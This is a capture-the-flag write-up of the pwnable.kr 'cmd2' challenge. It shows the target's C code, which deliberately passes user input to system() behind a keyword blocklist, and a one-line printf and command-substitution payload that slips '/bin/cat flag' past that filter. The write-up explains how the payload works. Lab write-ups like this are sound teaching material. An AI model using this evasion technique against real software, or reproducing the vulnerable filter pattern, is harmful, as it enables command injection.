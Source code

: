## pwn : cmd2 [writeup]

Challenge from [pwnable.kr](https://pwnable.kr/)

**In this challenge** We have this code :

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

### READ MORE IN `cmd1` SOLUTION [HERE](https://github.com/amineichou/pwn/tree/main/cmd1)

### Solution
```bash
./cmd2 '$(printf "%bbin%bcat %s%s" "\57" "\57" "fla" "g")'
```

### Explaination

- `%b` tells printf to interpret escape sequences.
- `%s` is for inserting a string.

1. Each part of the command translates like this:

- `"\57"`: In octal, 57 is '/', so \57 translates to '/'.
- `"bin"`: Literal text.
- `"\57"` (again): Another '/'.
- `"cat"`: Literal text.
- `"fla"` and `"g"`: When combined, they form "flag".

Putting these together, printf will produce the following output:

```bash
/bin/cat flag
```

2. Command Substitution with $( ... ):

The $( ... ) syntax is command substitution in Bash, which runs the command inside and substitutes it with the output. So:

```bash
$(printf "%bbin%bcat %s%s" "\57" "\57" "fla" "g")
```

will replace itself with `/bin/cat flag`.

3. Running ./cmd2:

Finally, the entire command:

```bash
./cmd2 '$(printf "%bbin%bcat %s%s" "\57" "\57" "fla" "g")'
```

effectively becomes:

```bash
./cmd2 '/bin/cat flag'
```

end.